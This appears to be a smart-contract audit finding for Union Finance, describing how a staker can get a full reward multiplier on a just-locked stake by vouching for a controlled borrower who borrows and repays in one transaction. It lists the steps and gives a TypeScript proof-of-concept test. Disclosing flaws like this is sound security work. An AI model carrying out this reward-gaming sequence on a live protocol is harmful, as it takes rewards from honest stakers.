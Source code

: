 ```solidity
	delete voucheeIndexes[borrower][staker]; 
```

# Issue M-2: A stake that has just been locked gets full reward multiplier 

Source: https://github.com/sherlock-audit/2022-10-union-finance-judging/issues/142 

## Found by 
Bahurum

## Summary
A staker gets rewarded with full multiplier even if its stake has just been locked. Multiplier calculation should take into account the duration of the lock.

## Vulnerability Detail

1. A staker stakes an amount of tokens. 
2. The staker waits for some time
3. The staker has control of another member (bribe, ...)
4. The staker vouches this other member
5. The member borrows
6. The staker calls `Comptroller:withdrawRewards` and gets an amount of rewards with a multiplier corresponding to a locked stake
7. The member repays the loan

Note that steps 4 to 7 can be made in one tx, so no interest is paid at step 7.

The result is that the staker can always get the full multiplier for rewards, without ever putting any funds at risk, nor any interest being paid. This is done at the expense of other honest stakers, who get proprotionally less of the rewards dripped into the comptroller.

For a coded PoC replace the test `"staker with locked balance gets more rewards"` in `staking.ts` with the following

```typescript
        it("PoC: staker with locked balance gets more rewards even when just locked", async () => {
            const trustAmount = parseUnits("2000");
            const borrowAmount = parseUnits("1800");
            const [account, staker, borrower] = members;

            const [accountStaked, borrowerStaked, stakerStaked] = await helpers.getStakedAmounts(
                account,
                staker,
                borrower
            );

            expect(accountStaked).eq(borrowerStaked);
            expect(borrowerStaked).eq(stakerStaked);

            await helpers.updateTrust(staker, borrower, trustAmount);
            
            await roll(10);
            await helpers.borrow(borrower, borrowAmount); // borrows just after withdrawing
            
            const [accountMultiplier, stakerMultiplier] = await helpers.getRewardsMultipliers(account, staker);
            console.log("accountMultiplier: ", accountMultiplier);
            console.log("StakerMultiplier: ", stakerMultiplier);
            expect(accountMultiplier).lt(stakerMultiplier);  // the multiplier is larger even if just locked
        });
```
